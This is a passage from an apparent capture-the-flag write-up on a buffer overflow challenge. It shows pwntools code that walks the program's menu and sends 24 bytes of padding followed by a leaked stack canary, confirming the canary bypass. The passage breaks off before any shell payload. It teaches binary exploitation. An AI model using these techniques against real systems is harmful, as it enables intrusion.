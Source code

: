### Exploit

Now that we have defeated the stack canary and found the `libc` address, we need to exploit the Buffer Overflow. We can try to make it work on my local machine before connecting to the server.

First, let's create some code that will trigger the `warning` function.&#x20;

```python
def shell():
	for i in range (10):
		p.recv()
		p.sendline(b"1")
		p.recv()
		p.sendline(b"1")

	p.recv()
	p.sendline(b'1')
	p.recv()
	p.sendline(b'2')
	p.recv()
	p.sendline(b'Red')
	p.recv()
	# send your payload here!
```

We know that the `warning` variable takes a string of input length 24, so let's send that and then the canary:

```python
def shell(canary):
	for i in range (10):
		p.recv()
		p.sendline(b"1")
		p.recv()
		p.sendline(b"1")

	p.recv()
	p.sendline(b'1')
	p.recv()
	p.sendline(b'2')
	p.recv()
	p.sendline(b'Red')
	p.recv()
	
	buffer = b'A' * 24
	buffer += p64(canary)
	p.sendline(buffer)
```

This does not trigger the stack smashing error we found earlier, indicating the canary found works:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
